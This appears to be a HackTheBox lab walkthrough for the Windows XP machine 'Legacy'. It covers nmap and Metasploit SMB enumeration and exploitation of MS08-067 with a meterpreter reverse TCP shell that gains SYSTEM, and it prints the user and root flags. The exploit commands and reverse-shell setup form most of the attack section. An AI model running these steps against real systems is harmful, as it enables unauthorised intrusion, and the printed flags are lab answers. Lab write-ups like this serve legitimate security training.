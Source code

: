 ```yaml
---
title: HackTheBox Legacy Walkthrough
created: '2020-08-20T17:10:23.504Z'
modified: '2020-08-22T14:47:53.466Z'
---
```


# HackTheBox Legacy Walkthrough

This is a Walkthrough how I get the user and root flag on the machine. All my scan results are stored in the [attachments](./attachments) folder.

Machine details:

- Machine Name : Legacy
- IP address: 10.10.10.4
- OS: Windows
- Difficulty: Easy

## Scanning

In this table I summarize the open ports and protocols and the XML version of the full results.

| Scan Type         | Open Ports/Protocols | XML Output File                                |
|-------------------|----------------------|------------------------------------------------|
| Nmap IP Scan      | 1 (ICMP)             | [ip_legacy.xml](./attachments/ip_legacy.xml)   |
| Nmap TCP SYN Scan | 139, 445             | [tcp_legacy.xml](./attachments/tcp_legacy.xml) |
| Nmap UDP Scan     | 137                  | [udp_legacy.xml](./attachments/udp_legacy.xml) |

## Enumeration

### OS Enumeration

The Nmap OS detection found 94% match for Microsoft Windows XP SP3.

### SMB Enumeration

```bash
root@Kali:/# msfconsole

               .;lxO0KXXXK0Oxl:.
           ,o0WMMMMMMMMMMMMMMMMMMKd,
        'xNMMMMMMMMMMMMMMMMMMMMMMMMMWx,
      :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK:
    .KMMMMMMMMMMMMMMMWNNNWMMMMMMMMMMMMMMMX,
   lWMMMMMMMMMMMXd:..     ..;dKMMMMMMMMMMMMo
  xMMMMMMMMMMWd.               .oNMMMMMMMMMMk
 oMMMMMMMMMMx.                    dMMMMMMMMMMx
.WMMMMMMMMM:                       :MMMMMMMMMM,
xMMMMMMMMMo                         lMMMMMMMMMO
NMMMMMMMMW                    ,cccccoMMMMMMMMMWlccccc;
MMMMMMMMMX                     ;KMMMMMMMMMMMMMMMMMMX:
NMMMMMMMMW.                      ;KMMMMMMMMMMMMMMX:
xMMMMMMMMMd                        ,0MMMMMMMMMMK;
.WMMMMMMMMMc                         'OMMMMMM0,
 lMMMMMMMMMMk.                         .kMMO'
  dMMMMMMMMMMWd'                         ..
   cWMMMMMMMMMMMNxc'.                ##########
    .0MMMMMMMMMMMMMMMMWc            #+#    #+#
      ;0MMMMMMMMMMMMMMMo.          +:+
        .dNMMMMMMMMMMMMo          +#++:++#+
           'oOWMMMMMMMMo                +:+
               .,cdkO0K;        :+:    :+:
                                :::::::+:
                      Metasploit

       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 566 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Open an interactive Ruby terminal with irb

msf5 > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads (max one per host)

msf5 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 auxiliary(scanner/smb/smb_version) > exploit

[+] 10.10.10.4:445        - Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB ) (signatures:optional)
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Searching Vulnerabilities

I google for [smb windows xp sp3 exploit](https://www.google.com/search?q=smb+windows+xp+sp3+exploit&oq=smb+xp+sp&aqs=chrome.1.69i57j0l7.6303j0j7&sourceid=chrome&ie=UTF-8). The first finding is a Metasploit module for [MS08-067 Microsoft Server Service Relative Path Stack Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

## Exploit

I use the found module with staged meterpreter reverse TCP shell. The meterpreter session already has SYSTEM privilege so the only think left is to find the user and root flag on the machine.

```bash
msf5 auxiliary(scanner/smb/smb_version) > use exploit/windows/smb/ms08_067_netapi
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.5      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.23
LHOST => 10.10.14.23
msf5 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.23:4444
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176195 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.23:4444 -> 10.10.10.4:1031) at 2020-08-20 19:22:30 +0000

meterpreter > pwd
C:\WINDOWS\system32
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > cat C:\\Documents\ and\ Settings\\john\\Desktop\\user.txt
e69af0e4f443de7e36876fda4ec7644f
meterpreter >
meterpreter > cat C:\\Documents\ and\ Settings\\Administrator\\Desktop\\root.txt
993442d258b0e0ec917cae9e695d5713
meterpreter >
```

